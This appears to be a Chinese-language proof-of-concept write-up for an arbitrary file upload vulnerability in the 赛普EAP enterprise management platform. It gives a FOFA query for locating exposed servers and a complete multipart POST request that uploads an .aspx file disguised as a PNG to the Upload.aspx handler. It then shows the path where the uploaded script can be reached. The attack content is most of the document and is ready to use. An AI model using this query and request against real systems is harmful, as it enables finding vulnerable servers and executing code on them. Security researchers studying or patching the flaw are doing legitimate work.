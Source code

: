 # 赛普EAP企业适配管理平台Upload存在任意文件上传漏洞
赛普EAP企业适配管理平台，是一款专门为房地产企业打造的数字化管理系统，旨在帮助企业实现业务流程的优化、管理效率的提升和客户体验的改善。系统集成了项目管理、销售管理、客户关系管理、财务管理、报表分析等多个模块，能够满足企业不同层级、不同部门的管理需求。通过采用灵活的配置机制，该系统可以根据不同企业的需求进行定制化配置，实现与企业业务的完美契合。赛普EAP企业适配管理平台Upload存在任意文件上传漏洞

## fofa
```javascript
body="IDWebSoft/"
```

## poc
```java
POST /IDWebSoft/Common/Handler/Upload.aspx HTTP/1.1
Host: 
Accept-Encoding: gzip, deflate
Priority: u=0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:132.0) Gecko/20100101 Firefox/132.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: multipart/form-data; boundary=---------------------------328367279028471380642525145085
Accept: */*
Content-Length: 44892

-----------------------------328367279028471380642525145085
Content-Disposition: form-data; name="Filedata"; filename="1.aspx"
Content-Type: image/png

<% response.write("drwc2nymcirgr7r2bdgb111")%>
-----------------------------328367279028471380642525145085--
```

![](https://cdn.nlark.com/yuque/0/2024/png/29512878/1731434585150-3f3a308b-bfc8-477d-9e09-0b93e43169dc.png)

```java
/IDWebSoft/Accessary/2024/11/cf9ebf1f-04f9-47f7-b2a3-aa22f74cf825.aspx
```

![](https://cdn.nlark.com/yuque/0/2024/png/29512878/1731434601172-28e5ec47-8721-41eb-9010-76dce5d3d1a8.png)

